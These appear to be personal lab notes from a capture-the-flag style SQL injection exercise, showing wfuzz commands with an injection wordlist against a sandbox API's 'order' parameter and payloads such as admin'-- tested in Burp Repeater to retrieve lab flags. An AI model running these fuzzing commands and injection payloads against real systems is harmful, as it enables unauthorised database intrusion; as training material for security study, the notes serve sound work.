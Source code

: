 ```sql
┌──(root💀gobots)-[20Aug2024 00:03:06]-[/home/kali]
└─# wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=oracle&name=test&sort=id&order=FUZZ" -u http://sql-sandbox/discovery/api/fuzzing
```
take some of the `500` errors and try them in repeater to see if they work - we already know `'` works
![[Pasted image 20240819210522.png]]
`admin'--` works
![[Pasted image 20240819210623.png]]
`\x3D%20\x27` also works
![[Pasted image 20240819210719.png]]
4. `OS{6165307AEBF8C697870758F72B08FCE8}`
![[Pasted image 20240819211441.png]]
Starting Point - hit `submit` and check out request in burpsuite repeater
![[Pasted image 20240819210909.png]]
take the `variables` and `URL` to throw into the `WFUZZ` to fuzz the `ORDER` variable `db=mssql&name=testing&sort=id&order=asc`
![[Pasted image 20240819210957.png]]
**Make sure to change `asc` to `FUZZ`**
```sql
┌──(root💀gobots)-[20Aug2024 00:03:06]-[/home/kali]
└─# wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mssql&name=testing&sort=id&order=FUZZ" -u http://sql-sandbox/discovery/api/fuzzing
```
we now have parameters to test in the repeater
![[Pasted image 20240819211234.png]]
`-` test - works to generate flag
![[Pasted image 20240819211309.png]]